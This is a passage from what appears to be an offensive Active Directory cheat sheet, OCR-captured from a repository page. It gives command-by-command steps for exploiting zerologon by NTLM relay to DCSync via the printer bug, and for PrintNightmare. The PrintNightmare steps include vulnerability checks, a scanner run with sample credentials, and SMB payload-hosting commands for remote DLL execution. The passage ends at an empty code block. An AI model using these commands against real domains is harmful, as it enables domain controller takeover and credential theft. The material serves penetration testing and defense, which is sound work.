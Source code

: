 A 2nd approach to exploit zerologon is done by relaying authentication.

This technique, [found by dirkjanm](https://dirkjanm.io/a-different-way-of-abusing-zerologon), requires more prerequisites but has the advantage of having no impact on service continuity.
The following prerequisites are needed:
* A domain account
* One DC running the `PrintSpooler` service
* Another DC vulnerable to zerologon

* `ntlmrelayx` - from Impacket and any tool such as [`printerbug.py`](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
  ```powershell
  # Check if one DC is running the PrintSpooler service
  rpcdump.py 10.10.10.10 | grep -A 6 "spoolsv"
  
  # Setup ntlmrelay in one shell
  ntlmrelayx.py -t dcsync://DC01.LAB.LOCAL -smb2support
  
  #Trigger printerbug in 2nd shell
  python3 printerbug.py 'LAB.LOCAL'/joe:Password123@10.10.10.10 10.10.10.12
  ```

### PrintNightmare

> CVE-2021-1675 / CVE-2021-34527

The DLL will be stored in `C:\Windows\System32\spool\drivers\x64\3\`.
The exploit will execute the DLL either from the local filesystem or a remote share.

Requirements:
* **Spooler Service** enabled (Mandatory)
* Server with patches < June 2021
* DC with `Pre Windows 2000 Compatibility` group
* Server with registry key `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall` = (DWORD) 1
* Server with registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` = (DWORD) 0


**Detect the vulnerability**:
* Impacket - [rpcdump](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/rpcdump.py)
  ```ps1
  python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
  Protocol: [MS-RPRN]: Print System Remote Protocol
  ```
* [It Was All A Dream](https://github.com/byt3bl33d3r/ItWasAllADream) 
  ```ps1
  git clone https://github.com/byt3bl33d3r/ItWasAllADream
  cd ItWasAllADream && poetry install && poetry shell
  itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
  docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
  ```

**Payload Hosting**: 
* The payload can be hosted on Impacket SMB server since [PR #1109](https://github.com/SecureAuthCorp/impacket/pull/1109):
```ps1
python3 ./smbserver.py share /tmp/smb/
```
* Using [Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer/blob/main/Invoke-BuildAnonymousSMBServer.ps1) (Admin rights required on host): 
```ps1
Import-Module .\Invoke-BuildAnonymousSMBServer.ps1; Invoke-BuildAnonymousSMBServer -Path C:\Share -Mode Enable
```
* Using WebDav with [SharpWebServer](https://github.com/mgeeky/SharpWebServer) (Doesn't require admin rights):
```ps1
```